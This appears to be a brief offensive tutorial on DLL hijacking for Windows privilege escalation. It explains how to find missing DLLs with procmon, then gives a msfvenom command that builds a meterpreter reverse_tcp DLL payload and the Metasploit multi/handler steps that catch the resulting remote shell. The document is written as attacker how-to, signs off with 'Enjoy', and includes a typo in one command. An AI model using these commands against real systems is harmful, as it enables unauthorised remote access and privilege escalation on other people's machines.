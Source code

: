 First of all, let’s get the definition out of the way. DLL hijacking is, in the broadest sense, tricking a legitimate/trusted application into loading an arbitrary DLL. Terms such as DLL Search Order Hijacking, DLL Load Order Hijacking, DLL Spoofing, DLL Injection and DLL Side-Loading are often -mistakenly- used to say the same.
Dll hijacking can be used to execute code, obtain persistence and escalate privileges. From those 3 the least probable to find is privilege escalation by far. However, as this is part of the privilege escalation section, I will focus on this option. Also, note that independently of the goal, a dll hijacking is perform the in the same way.

#Finding-missing-Dlls

The most common way to find missing Dlls inside a system is running procmon from sysinternals, setting the following 2 filters from jpg files i put .
If you are looking for missing dlls in general you leave this running for some seconds.
If you are looking for a missing dll inside an specific executable you should set another filter like "Process Name" "contains" "<exec name>", execute it, and stop capturing events.

#Exploiting Missing Dlls
In order to escalate privileges, the best chance we have is to be able to write a dll that a privilege process will try to load in some of place where it is going to be searched. Therefore, we will be able to write a dll in a folder where the dll is searched before the folder where the original dll is (weird case), or we will be able to write on some folder where the dll is going to be searched and the original dll doesn't exist on any folder.

Use metasploit :

msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR-IP LPORT=YOUR-PORT -f dll -o msf.dll

after that build up listener

mfsconsole

use multi/handler

set LHOST YOUR-IP

set LPORT YOUR-PORT

set PAYLOAD windows/meterpreter/reverse_tcp

exploit


Enjoy :)
